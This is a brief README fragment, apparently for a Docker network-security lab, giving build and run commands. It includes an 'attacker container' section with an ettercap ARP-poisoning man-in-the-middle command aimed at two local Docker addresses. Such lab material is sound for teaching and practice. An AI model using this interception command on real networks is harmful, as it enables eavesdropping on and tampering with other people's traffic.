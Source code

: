 ## Commands to build individually

        sudo docker build -t <image_name> . -f <Dockerfile_name>
        sudo docker run -it <image_name>

### Attacker container command

        sudo docker run --cap-add=NET_ADMIN --cap-add=SYS_ADMIN -it attacker:test
        ettercap -T -S -i eth0 -M arp:remote //172.17.0.1/ //172.17.0.3/